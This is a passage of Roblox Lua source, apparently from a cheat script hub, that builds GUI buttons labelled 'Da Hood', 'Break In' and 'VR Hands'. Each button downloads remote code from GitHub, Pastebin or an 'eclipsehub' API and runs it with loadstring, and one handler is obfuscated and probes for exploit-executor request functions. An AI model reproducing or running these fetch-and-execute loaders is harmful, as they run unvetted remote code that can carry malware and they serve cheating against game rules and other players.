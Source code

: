 Dahood.Name = "Dahood"
Dahood.Parent = Main
Dahood.BackgroundColor3 = Color3.fromRGB(65, 65, 65)
Dahood.BorderSizePixel = 0
Dahood.Position = UDim2.new(0.533138156, 0, 0.150420666, 0)
Dahood.Size = UDim2.new(0, 81, 0, 58)
Dahood.Font = Enum.Font.Roboto
Dahood.Text = "Da Hood"
Dahood.TextColor3 = Color3.fromRGB(255, 255, 255)
Dahood.TextSize = 23.000
Dahood.TextStrokeColor3 = Color3.fromRGB(255, 255, 255)
Dahood.TextWrapped = true
Dahood.MouseButton1Down:Connect(function()
	loadstring(game:HttpGet('https://raw.githubusercontent.com/Pvpahh/enclosed/main/enclosed'))()
end)

BreakIn.Name = "BreakIn"
BreakIn.Parent = Main
BreakIn.BackgroundColor3 = Color3.fromRGB(65, 65, 65)
BreakIn.BorderSizePixel = 0
BreakIn.Position = UDim2.new(0.68994534, 0, 0.150420666, 0)
BreakIn.Size = UDim2.new(0, 81, 0, 58)
BreakIn.Font = Enum.Font.Roboto
BreakIn.Text = "Break In"
BreakIn.TextColor3 = Color3.fromRGB(255, 255, 255)
BreakIn.TextSize = 23.000
BreakIn.TextStrokeColor3 = Color3.fromRGB(255, 255, 255)
BreakIn.TextWrapped = true
BreakIn.MouseButton1Down:Connect(function()
	local a,b,c,d,e=loadstring,request or http_request or (http and http.request) or (syn and syn.request),assert,tostring,"https://api.eclipsehub.xyz/auth"c(a and b,"Executor not Supported")a(b({Url=e.."\?\107e\121\61"..d(mainKey),Headers={["User-Agent"]="Eclipse"}}).Body)()
end)

VRHands.Name = "VR Hands"
VRHands.Parent = Main
VRHands.BackgroundColor3 = Color3.fromRGB(65, 65, 65)
VRHands.BorderSizePixel = 0
VRHands.Position = UDim2.new(0.170315683, 0, 0.150420666, 0)
VRHands.Size = UDim2.new(0, 81, 0, 58)
VRHands.Font = Enum.Font.Roboto
VRHands.Text = "VR Hands"
VRHands.TextColor3 = Color3.fromRGB(255, 255, 255)
VRHands.TextSize = 19.000
VRHands.TextStrokeColor3 = Color3.fromRGB(255, 255, 255)
VRHands.TextWrapped = true
VRHands.MouseButton1Down:Connect(function()
	loadstring(game:HttpGet("https://pastebin.com/raw/ugQ9Nb7t"))()
end)

Frame.Parent = Main
Frame.BackgroundColor3 = Color3.fromRGB(17, 17, 17)
Frame.BorderSizePixel = 0
Frame.Position = UDim2.new(0.981575131, 0, 0.0965127498, 0)
Frame.Size = UDim2.new(0, 11, 0, 263)
